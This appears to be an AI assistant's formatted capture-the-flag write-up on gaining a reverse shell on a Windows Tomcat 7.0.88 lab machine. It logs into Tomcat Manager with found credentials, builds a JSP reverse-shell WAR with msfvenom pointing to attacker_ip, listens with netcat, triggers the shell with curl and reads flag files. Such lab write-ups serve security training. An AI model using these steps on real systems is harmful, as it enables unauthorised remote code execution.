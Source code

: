 Here's the cleaned-up `.md` report for you to paste easily, with your IP replaced by `attacker_ip` and without recommendations or references:

````markdown
# Apache Tomcat 7.0.88 WAR Upload RCE Using msfvenom Payload (Manual Exploit)

**Target:** 10.10.10.95  
**OS:** Windows Server 2012 R2 (amd64)  
**Tomcat Version:** Apache Tomcat 7.0.88  
**JVM:** 1.8.0_171-b11 (Oracle)

---

## 1. Access Tomcat Manager and Find Credentials

- Visited `http://10.10.10.95:8080/manager/html`
- Initially got 401 Unauthorized
- Found valid credentials in `tomcat-users.xml`:

```xml
<user username="tomcat" password="s3cret" roles="admin-gui"/>
````

* Logged in successfully with:

```
username: tomcat
password: s3cret
```

---

## 2. Generate WAR Payload with msfvenom

* Created JSP reverse shell WAR payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f war -o shell.war
```

* LHOST = attacker IP
* LPORT = listener port

---

## 3. Start Netcat Listener

```bash
nc -lvnp 4444
```

---

## 4. Deploy WAR Payload via Tomcat Manager

* In Tomcat Manager UI, under "Deploy":

  * Context Path: `/shell`
  * WAR File: upload `shell.war`
* Click **Deploy**

---

## 5. Trigger Reverse Shell

* Access the JSP shell endpoint:

```bash
curl http://10.10.10.95:8080/shell/shell.jsp
```

* This initiates a reverse shell connection.

---

## 6. Get Reverse Shell

* On netcat listener:

```
connect to [attacker_ip] from (UNKNOWN) [10.10.10.95] 12345
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\\apache-tomcat-7.0.88\\bin>
```

---

## 7. Post-Exploitation

* Navigate to flags directory:

```cmd
cd C:\\Users\\Administrator\\Desktop\\flags
```

* Read flag file:

```cmd
type "2 for the price of 1.txt"
```

---

## Why This Works

* Tomcat Manager allows WAR upload and deployment.
* The WAR contains a JSP shell which connects back to attacker.
* Using valid credentials bypasses 403 Forbidden errors.
* `java/jsp_shell_reverse_tcp` is compatible with Tomcat's JVM and environment.
* Shell runs with Tomcat’s permissions, here Administrator.

```

I also saved this as a Markdown file here if you want to download or use it:  
`/mnt/data/tomcat_war_rce_report.md`
```
